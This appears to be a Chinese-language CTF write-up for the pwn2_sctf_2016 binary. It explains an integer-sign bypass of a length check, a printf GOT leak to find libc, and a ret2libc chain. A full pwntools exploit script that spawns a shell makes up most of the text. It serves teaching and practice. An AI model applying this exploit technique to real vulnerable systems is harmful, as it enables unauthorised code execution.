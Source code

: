 - `lib`地址泄露

![image-20231223203034800](../assets/img/old_imgs/image-20231223203034800.png)

> vuln()

1. 程序对输入的`v2`做了限制首先要利用整数绕过`if (v2 > 32)`的限制

2. 程序中没有现成的`shell`所以要通过`printf`泄露`lib`手动构造`shell`

   ```python
   from pwn import * 
   context.log_level = 'debug'
   io = process('./pwn2_sctf_2016')
   #io = gdb.debug('./pwn2_sctf_2016','break *vuln')
   elf = ELF('./pwn2_sctf_2016')
   Lib = ELF('/lib/i386-linux-gnu/libc.so.6')
   printf_got = elf.got['printf']
   printf_plt = elf.plt['printf']
   vuln_addr = elf.sym['vuln']
   main_addr = elf.sym['main']
   offset =48
   #1.绕过限制
   io.sendlineafter('How many bytes do you want me to read?',b'-1')
   #2.泄露lib
   payload1 = b'A'*offset+p32(printf_plt)+p32(vuln_addr)+p32(printf_got)
   io.sendlineafter(b'data!\n',payload1)
   io.recvuntil('\n')
   a = io.recv(4)
   printf_addr = u32(a)
   print('lib->',hex(printf_addr))
   #3.构造shell
   baseoffset = printf_addr - Lib.symbols['printf']
   sys_addr = Lib.sym['system']+baseoffset
   shell_addr = baseoffset+next(Lib.search(b'/bin/sh'))
   io.sendlineafter(b'read?',b'-1')
   payload2 = b'A'*offset+p32(sys_addr)+p32(main_addr)+p32(shell_addr)
   io.recvuntil(b'data!\n')
   io.sendline(payload2)
   io.interactive()
   ```
